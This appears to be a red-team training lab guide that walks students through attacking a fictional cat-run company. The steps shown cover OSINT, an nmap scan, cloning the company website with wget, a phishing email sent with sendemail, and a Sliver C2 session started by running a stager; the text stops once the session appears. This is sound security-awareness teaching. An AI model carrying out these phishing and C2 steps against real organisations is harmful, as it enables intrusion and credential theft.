# Cyber Attack Lifecycle Lab

## Table of Contents
- [Cyber Attack Lifecycle Lab](#cyber-attack-lifecycle-lab)
  - [Table of Contents](#table-of-contents)
  - [Welcome!](#welcome)
  - [Your Mission](#your-mission)
  - [Lab Access and Topology](#lab-access-and-topology)
  - [Reconnaissance](#reconnaissance)
    - [Open Source Intelligence (OSINT)](#open-source-intelligence-osint)
    - [What about scanning Cruel testing for Open Ports?](#what-about-scanning-cruel-testing-for-open-ports)
  - [Initial Compromise](#initial-compromise)
    - [Phishing](#phishing)
    - [Execution of Malware (Information and Discussion)](#execution-of-malware-information-and-discussion)
      - [Why malware detection by EDR  is not easy](#why-malware-detection-by-edr--is-not-easy)
      - [Stagers](#stagers)
    - [Waiting for the C2 connection](#waiting-for-the-c2-connection)
    - [Execute the stager from the client](#execute-the-stager-from-the-client)
  - [Command and Control and Pivoting](#command-and-control-and-pivoting)
    - [Situational Awareness : Learning about the compromised environment.](#situational-awareness--learning-about-the-compromised-environment)
    - [Learning about Garfields not-so-private-anymore files.](#learning-about-garfields-not-so-private-anymore-files)
    - [Getting Garfield AD Credentials](#getting-garfield-ad-credentials)
    - [Escalating our Privileges on the compromised client (Bypassing Windows UAC)](#escalating-our-privileges-on-the-compromised-client-bypassing-windows-uac)
    - [Pivoting to to other sytems](#pivoting-to-to-other-sytems)
  - [Attacking the Active Directory Infrastructure](#attacking-the-active-directory-infrastructure)
    - [Recon of AD with Bloodhound](#recon-of-ad-with-bloodhound)
    - [Kerberoasting](#kerberoasting)
    - [Kerberos Brief Intro](#kerberos-brief-intro)
    - [Getting and cracking the hashes of the privileged service account](#getting-and-cracking-the-hashes-of-the-privileged-service-account)
    - [Golden Tickets](#golden-tickets)
  - [Pivoting to the Internal Kubernetes Infrastructure](#pivoting-to-the-internal-kubernetes-infrastructure)
    - [Exploiting the vulnerable TOMCAT server](#exploiting-the-vulnerable-tomcat-server)
    - [What about the mice we want to set free?](#what-about-the-mice-we-want-to-set-free)
  - [Lab Conclusion](#lab-conclusion)
  - [Appendix A — Technical Overview of the UAC Bypass](#appendix-a--technical-overview-of-the-uac-bypass)
  - [Appendix B — Active Directory Fundamentals: The Intruder Perspective](#appendix-b--active-directory-fundamentals-the-intruder-perspective)
    - [The Kerberos Authentication Flow](#the-kerberos-authentication-flow)
  - [⬆ Back to Top](#-back-to-top)
  - [Appendix C — Kerberoasting Overview](#appendix-c--kerberoasting-overview)
  - [⬆ Back to Top](#-back-to-top-1)
  - [Appendix D — Golden Tickets](#appendix-d--golden-tickets)
    - [Impact of a Golden Ticket](#impact-of-a-golden-ticket)
  - [⬆ Back to Top](#-back-to-top-2)

## Welcome!

Welcome to the Feline Cyber attack lifecycle lab! In this lab you will assume the identity of an intruder to learn how intruders work to compromise your infrastructure. We will go through the different stages such as reconnaissance, initial access, lateral movement and persistence and more.
Suitable audience are CISOs, Security and Network Architects/Engineers.

The lab is not about learning hacking tools or how to create malware bypassing defenses. Rather it explains how an intruder gains access and what the intruder can do. You will also learn that the intruder tries to be very stealthy, avoiding noisy exploitation, scanning and things that would create alarms from your cyber defense systems.

The lab has been designed so you do not have to type long commands in a linux shell, instead you can copy and paste from the lab guide, allowing you to focus on general principles.

## Your Mission

You will assume the identity of an evil intruder. Your mission - should you choose to accept it - is to compromise an enterprise "Cruel Testing LTD ". As you will notice, the enterprise is run by cats. This enterprise does animal testing on rats, something you very much oppose. Your compromise of Cruel Testing  should be complete. You should gain persistent complete control of their infrastructure and you should be able to help your rat friends and set them free.

If you accept the mission, start by browsing to http://www.crueltesting.com, to learn about your target.


**Cruel Testing Public Website**


## Lab Access and Topology

All you need to access the lab is internet access with a browser (http). Chrome browser is recommended since it allows for easy copy/paste from these instructions to the lab environment.

The lab topology is shown in the figure below. From your laptop you will access a guacamole server, from which you can access the lab environment. You will do almost all the work from evil, the attackers machine. But you will also have access to the windows 11 client machine to simulate a target user (garfield) opening files downloaded from the internet or inadvertantly helping the intruder (you).

Note that Cruel Testing has put a state-of-the-art Next Gen Firewall in place that blocks all incoming traffic from the external network (evil machine) to the internal network and the DMZ.


**Lab Topology**

You will have your student number, (1,2,3....15) and a password provided by your proctor.

Access the lab by going to http://guac**number**.felinecyber.com. So if your are group 8 it would be http://guac8.felinecyber.com.



**Guacamole Login Page**

Ignore the warnings that the session is not secure/encrypted and proceed.

Login with the username guacadmin and the password supplied by your proctor.
You may be presented with a window asking your permission to copy/paste stuff. Click Accept

You will now see different connection options, the ones you will use in this lab are evil-rdp and garfield-client. Right click both options to open a new tab in your browser so you have instant access to both. You should not need the other connections for this lab.

Click on your evil-rdp tab to get access to the attacking machine. Open a terminal window and type startlab as shown in the picture. This should open up a terminal window with different tabs that we will use  in this lab.

```
startlab
```


**Starting the lab**

Two of the tabs opened are for linux shell commands.
We also have one command running a web server on evil and one for running sliver which is our Command and Control (C2) system.

## Reconnaissance

The intruder's (your) first step is to find out about your target.

### Open Source Intelligence (OSINT)

Let's use OSINT (Open Source Intelligence). This includes using public information about your target such as public websites, google search and social networks. Linkedin can be very useful since employees may post details that can be extremely helpful to attackers.

From their website http://www.crueltesting.com you would already have learned about their disgusting business practices. But you would also have learned about some of their employees, like their CEO and founder (scratchy), their CISO (Schroedinger's) and their Help Desk Director (garfield).


**Cruel Testing stakeholders**

Let's not waste time trying to hack Cruel Testing by their public website. It is a completely static webpage hosted on cloudflare (outside of the network topology we are working with). Instead we try to hack the users. The most interesting user here is <i>garfield</i> since he is in IT and may have more privileges than even the senior CEO and CISO.

You now use OSINT (Open Sources Intelligence) to discover more about the company and their users. A really good source for people in the IT industry is linkedin. After searching for garfield at cruel testing you find this information


**Garfield Linkedin Page**

We learn that Garfield is a help desk support guys with knowledge of Windows and Active Directory, so we can assume Cruel Testing use that. We also learn that he may be open to new job offers.

### What about scanning Cruel testing for Open Ports?

We all know about scanning, how an intruder would find open port and vulnerabilities.

Of course our recon could also involve scanning Cruel Testing Internal Network for exposed servers with vulnerabilities, but it will not succeed since their pricey FW is blocking everything inbound (except incoming email)

But do not take our word for it, from your RDP session to evil, try running the famous nmap to scan the internal targets from the outside.

From the terminal window choose a tab with a shell on evil, and paste

```
nmap -Pn 10.0.2.10 10.0.3.6 -p 80,443,445
```
Evil will here try reachability on ports 80,443 (web), 445 (microsoft stuff) on the domain controller and the kubernetes host behind the firewall.

You will get the result, nothing is open (Actually port 25 is open, we will use that for phishing)


**nmap scan returns everything as filtered**

Should we give up our mission?

*But we do not need any open ports!*

 We do not care that their Firewall blocks everything from the outside.
We know some users and can guess their emails!

[⬆ Back to Top](#table-of-contents)
## Initial Compromise

### Phishing

Even if we cannot go directly for our target website, we can attack the humans (or cats in this case).

**Note, in real life it is much more difficult to trick a cat than a human**

Traditionally phishing is done by email (even though phishing via SMS, Social Media have increased a lot)

Before we send our phishing email, let us show how an intruder could copy the legitimate website of Cruel Testing. This could be used in for phishing. The target user would be less reluctant to download sofware from, or logging in (giving away his credentials) to a website that looks familiar.

Enter this command in the shell terminal, it will "clone" www.crueltesting.com to our local machine where we are running a webserver.

```
wget -r -p -E -k -np -nH -P /home/localadmin/LAB https://www.crueltesting.com
```
Open up firefox and go to http://127.0.0.1, you will see a copy of our target website.


**We cloned the website of Cruel Testing**

The next step for the intruder could be to register a similar domain name to crueltesting.com, (crueltests.com, crueltesting-updates.com) and use that in the phishing email.

We will not bother with that in this lab, but it is important to understand this technique since it is easy to perform and commonly used.

So let us send an email from the intruder to Garfield, the helpdesk guy.

We learned from linkedin that Garfield may be interested in "new opportunities". What if we pretend to be a headhunter? We could even call him first to discuss a job opportunity with fantastic benefits, flattering him on his deep helpdesk skills and ability to punish people who complain. Combining email phishing with a phone call could be very effective.

Note that the attacker can use AI to help craft persuasive phishing emails (and make phone calls!!).

From a shell on evil, type
```
sendemail -f trustme.headhunter@felinejobs.com -s 10.0.3.6 -t garfield@crueltesting.com -u "Job oportunity! Free Tunafish: " -m "As we discussed on the phone, check attachment for details" -s 10.0.3.6
```


**Sending phishing email**

### Execution of Malware (Information and Discussion)

Typically, phishing will trick the user to download a file to execute, or click on a link to a website (maybe one like the fake one we created above) where a file may be downloaded and executed.

The defender will have EDR in place to try to block this. But blocking malware is difficult.

Here we have the "Cat and Mouse game"! If you search for EDR evasion you will get lots of hits, here are some results from youtube on Microsoft Defender Evasion from 2026.


**Examples of published Windows Defender bypasses in 2026**

The "Cat and Mouse game" also means that soon after a bypass of an EDR is published, the vendor will fix the problem, until the next bypass is published, and so on.

We must also understand that the bad guys will not publish their methods.

As security professionals we must therefore assume that the defense can be bypassed.  In this lab we assume the intruder (you) have managed to deliver a payload to the target victim that is executed.

For that reason, in the lab environment, windows defender has been disabled to produce a reproducable lab.
(Otherwise the lab would need to be constantly updated with new bypasses)

#### Why malware detection by EDR  is not easy

Detecting malware by EDR is difficult. A typical malware delivered to a client may do things such as connecting to a command and control server on the internet, wait for commands and execute those commands (like reading, creating or deleting files, make network connections etc). However, these actions could also be legitimate actions taken by a legitimate management tool.

Malware typically try to use living-of-the-land techniques, using legitimate and already installed binaries to do their work. This can be very difficult to detect.

#### Stagers

A favourite method of intruders is to use stagers. This means that initial file that is executed on the target machine is a very small file  and lightweight (and therefore difficult to catch). This "stager" then opens up https:// connection to a site on the web where it retrieves the real malware which is executed in memory without touching the disk.


**Attacker often use Stagers**


### Waiting for the C2 connection

First, we ensure that our attacking machine, evil, is prepared to receive incoming command and control (C2) from the client. Click on the Sliver tab. Then type jobs.

```
jobs
```

You should see that sliver is waiting on port 443 for the mtls protocol.


**Sliver waiting for connections**

### Execute the stager from the client

Now, move to your RDP session to the client inside of the firewall: use the cruel-c1(garfield) tab

You will get windows popup warnings about paging files, close those dialogue boxes.


**Cancel paging warnings**

Check the phishing email by launching the browser going to http://webmail.crueltesting.com.


**Garfield reads phishing email**

Let us assume Garfield has already downloaded the attachment to his desktop.

On the garfield desktop there is a file called stager.exe. If Garfield clicks it he will see all the fantastic benefits of the new job offer!!!

Note that a real attacker may name the file differently.


*Clicking on the stager*


## Command and Control and Pivoting

Back on evil, check the HTTP Server tab. You should see that there has been a connection from the stager to download the evil payload. Then go to the Sliver tab. You should see a new session.

On evil, check the sliver tab. You should now see a new session.

